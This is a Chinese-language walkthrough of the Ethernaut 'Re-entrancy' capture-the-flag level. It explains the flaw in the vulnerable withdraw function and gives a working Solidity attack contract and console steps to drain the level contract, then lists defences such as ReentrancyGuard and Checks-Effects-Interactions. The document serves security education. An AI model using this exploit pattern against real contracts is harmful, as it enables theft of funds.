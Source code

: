 title: 10. Re-entrancy
date: 2022-11-22 12:28:38
updated: 2022-11-22 12:28:38
tags: ethernaut
categories: Web3
---

Chain: Goerli
Difficulty: ●●●○○
Level: https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb

### 要求

这一关的目标是偷走合约的所有资产.

这些可能有帮助:

- 不可信的合约可以在你意料之外的地方执行代码.
- Fallback methods
- 抛出/恢复 bubbling
- 有的时候攻击一个合约的最好方式是使用另一个合约.
- 查看上方帮助页面, "控制台之外" 部分

### 分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

分析合约代码，关键点在于 `withdraw` 函数中：

```solidity
(bool result,) = msg.sender.call{value:_amount}("");
```

这里犯了常见的错误：未考虑调用者为另一个合约的情况。如果该合约在 `fallback()` 中调用相同的函数就会发生 Re-entrancy attack。

### 解题

1. 首先打开Console，获取当前关卡合约实例地址 `instance`；
2. 打开 [Remix IDE](https://remix.ethereum.org/)，创建文件 `10_Re-entrancy.sol`，粘贴以下代码：
   
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;
    
    interface IReentrance {
        function withdraw(uint256 _amount) external;
    }
    
    contract HackReentrance {
        address levelInstance;
    
        constructor(address _levelInstance) {
            levelInstance = _levelInstance;
        }
    
        function claim(uint256 _amount) public {
            IReentrance(levelInstance).withdraw(_amount);
        }
    
        fallback() external payable {
            IReentrance(levelInstance).withdraw(msg.value);
        }
    
        receive() external payable {
            IReentrance(levelInstance).withdraw(msg.value);
        }
    }
    ```
    
3. 在constructor 填入当前关卡合约实例地址后部署。
4. 为了保证被攻击合约余额能取空，查看被攻击合约余额 `await getBalance(instance)` 
5. 调用 `donate` 函数将ETH存入被攻击合约，在 Console 里执行：
   
    ```solidity
    await contract.donate("刚部署的攻击合约地址", {value: 被攻击合约余额})
    ```
    
6. 回到 [Remix IDE](https://remix.ethereum.org/)，再调用 `claim` 函数：
    - value 填入调用 `donate` 函数的值
7. 完成关卡。

### 后记

Re-entrancy attack 是一种最常见的攻击。[这里](https://github.com/OpenZeppelin/exploit-uniswap) 就介绍了 UniSwap 在V1 时如何受到 Re-entrancy attack。

要防止 Re-entrancy attack，最简单的办法是使用使用[OpenZeppelin](https://openzeppelin.com/)的 [ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)。

#### [S01. 重入攻击 | WTF学院](https://wtf.academy/solidity-application/S01_ReentrancyAttack/)

为了防止转移资产时的重入攻击, 使用 [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) 注意 `call` 只会返回 false 而不中断执行流. 其它方案比如 [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) 或 [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) 也可以使用.

`transfer` 和 `send` 不再被推荐使用, 因为他们在 Istanbul 硬分叉之后可能破坏合约 [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

总是假设资产的接受方可能是另一个合约, 而不是一个普通的地址. 因此, 他有可能执行了他的payable fallback 之后又“重新进入” 你的合约, 这可能会打乱你的状态或是逻辑.

重进入是一种常见的攻击. 你得随时准备好!

#### **The DAO Hack**

著名的DAO hack 使用了重进入攻击, 窃取了受害者大量的 ether. 参见 [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).